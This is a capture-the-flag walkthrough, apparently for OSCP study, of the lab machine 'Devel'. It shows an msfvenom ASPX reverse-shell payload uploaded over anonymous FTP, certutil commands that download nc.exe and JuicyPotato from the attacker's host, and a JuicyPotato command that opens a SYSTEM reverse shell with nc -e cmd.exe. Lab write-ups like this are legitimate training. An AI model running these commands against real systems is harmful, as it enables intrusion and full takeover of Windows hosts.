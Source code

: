 ## Devel

Difficulty: Easy

### User and Root Flag

Rustscan return to us port 21 and 80 as open.

```
rustscan -a 10.10.10.5 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/7a6debd3-f538-4619-b1b0-974c796edcf2)

<br>

As we can see, FTP is enabled to login with anonymous.

Also, port 80 has Microsoft ISS as webserver.

![ftp](https://github.com/b1d0ws/OSCP/assets/58514930/409130b8-d30d-4620-9c34-ab7539362a13)

<br>

Inside FTP, we see that the directory shared is the website root directory.  

We can generate a payload with msfvenom, upload to ftp and execute it accessing directly on the webserver.

```
msfvenom -p windows/shell_reverse_tcp -f aspx lhost=10.10.14.21 lport=4444 > shell.aspx

ftp 10.10.10.5
put shell.aspx
```

![uploadFTP](https://github.com/b1d0ws/OSCP/assets/58514930/a5eeee9b-8904-4ebc-8a48-c89248f65124)

#### Privilege Escalation

Enumeration privileges, we see that our user has SeImpersonatePrivilege, so we can abuse [JuicyPotato](https://github.com/ohpe/juicy-potato) here.

```
whoami /priv
```

![enumeratingPrivilege](https://github.com/b1d0ws/OSCP/assets/58514930/ce03aa5e-2729-46a6-be3b-c9641a210880)

<br>

Upload nc execute the reverse shell with it and the JuicyPotato x86 version to the machine.

```
cp /usr/share/windows-resources/binaries/nc.exe .
certutil -urlcache -f http://10.10.14.21/nc.exe nc.exe

certutil -urlcache -f http://10.10.14.21/JuicyPotatox86.exe JuicyPotatox86.exe

JuicyPotatox86.exe -l 4444 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\windows\Temp\nc.exe -e cmd.exe 10.10.14.21 1337" -t *
```

![privilegeEscalation](https://github.com/b1d0ws/OSCP/assets/58514930/3a4a3c2d-f184-42ec-8339-22cf977a727f)
